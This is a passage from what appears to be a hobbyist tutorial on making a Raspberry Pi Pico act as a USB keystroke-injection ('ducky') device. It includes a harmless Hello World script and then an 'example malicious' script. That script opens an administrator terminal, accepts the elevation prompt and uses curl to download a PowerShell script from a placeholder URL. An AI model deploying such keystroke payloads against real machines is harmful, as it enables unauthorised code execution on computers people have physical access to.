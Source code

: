 `DELAY 1000`&#x20;

`STRING Hello World!`

![](../../../attachments/Screenshot 2023-10-02 113641.png)

And save it as `payload.dd` in pico drive.

Now disconnect and reconnect the pico to test if it is working or not. If it is working it will open notepad and type `Hello World!` in it.

10. Now you can write your own ducky script inside the `payload.dd` file and run it on any system.

**Note: -** After saving the ducky script in payload.dd it will execute it immediately on connected system. So keep that in mind before writing the ducky script.

`Hello World!` **Demo**:

[https://vimeo.com/870229586?share=copy](https://vimeo.com/870229586?share=copy)

**Example malicious ducky script:**

[https://vimeo.com/870230398?share=copy](https://vimeo.com/870230398?share=copy)

Script: -

`REM TO CLOSE OPENED FILE EXPLORER WE USE ALT F4`

`ALT F4`&#x20;

`DELAY 500`

`GUI r`

`DELAY 500`

`STRING wt`

`REM TO OPEN AS ADMINISTRATOR USING CONTROL SHIFT ENTER`&#x20;

`CONTROL SHIFT ENTER`

`DELAY 1000`&#x20;

`LEFT`&#x20;

`DELAY 500`

`ENTER`&#x20;

`DELAY 1000`

`STRING cd .\Downloads\`

`ENTER`&#x20;

`DELAY 500`

`STRING curl URL/to/your/powershell/script -O script.ps1`&#x20;

`ENTER`

`DELAY 500`
